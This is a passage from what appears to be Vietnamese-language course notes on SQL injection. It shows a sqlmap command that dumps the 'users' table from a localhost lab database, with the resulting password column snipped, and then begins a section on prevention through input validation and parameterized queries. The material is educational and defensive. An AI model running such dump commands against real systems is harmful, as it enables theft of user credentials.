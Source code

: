 #### Bước 4: Dump Dữ Liệu Của Bảng **users**
Tiếp theo, chúng ta sẽ dump (trích xuất) toàn bộ dữ liệu của bảng `users`:

```bash
python .\sqlmap.py -u http://localhost/api/check-username.php?u=maria -D amdonuts -T users --dump
```

**Kết quả:**
SQLMap sẽ trích xuất dữ liệu từ bảng `users` và in ra các bản ghi trong bảng này:

```
Database: amdonuts
Table: users
[3 entries]
+----------------------------------+----------+
| password                          | username |
+----------------------------------+----------+
| ...SNIP...                        | maria    |
| ...SNIP...                        | admin    |
| ...SNIP...                        | bmdyy    |
+----------------------------------+----------+
```

Dữ liệu bảng `users` đã được dump thành công. Nếu các giá trị trong cột `password` là hash, SQLMap sẽ hỏi bạn có muốn lưu các giá trị hash để giải mã sau không. Trong trường hợp này, chúng ta chọn không giải mã (N).

**Lưu Ý:**
Kết quả dump dữ liệu sẽ được lưu trong một file CSV trên máy tính của bạn tại đường dẫn sau:
```
'C:\Users\bill\AppData\Local\sqlmap\output\localhost\dump\amdonuts\users.csv'
```

---

# 15. Ngăn Chặn Các Lỗ Hổng SQL Injection

SQL injection (SQLi) xảy ra khi lập trình viên tạo các truy vấn động mà không kiểm tra hoặc làm sạch đầu vào của người dùng đúng cách. Để ngăn chặn lỗ hổng SQLi, bạn cần chú trọng vào hai phương pháp chính: **Kiểm Tra và Làm Sạch Dữ Liệu Đầu Vào** và **Sử Dụng Truy Vấn Có Tham Số (Parameterized Queries)**.

---

### 1. Kiểm Tra và Làm Sạch Dữ Liệu Đầu Vào

SQL injection xảy ra khi dữ liệu từ người dùng được kết hợp trực tiếp vào trong truy vấn SQL mà không được kiểm tra hoặc làm sạch. Bạn (với tư cách là lập trình viên) nên luôn làm sạch dữ liệu đầu vào và nếu dữ liệu đó có một định dạng nhất định (ví dụ: email, số điện thoại), bạn nên kiểm tra tính hợp lệ của nó.

#### Cách Làm:
- **Xử lý tất cả đầu vào từ người dùng như thể chúng có thể chứa mã độc**.
- **Kiểm tra định dạng của dữ liệu đầu vào**: Đối với những đầu vào như email, số điện thoại, bạn nên kiểm tra định dạng của chúng để đảm bảo chúng hợp lệ trước khi đưa vào trong truy vấn.

---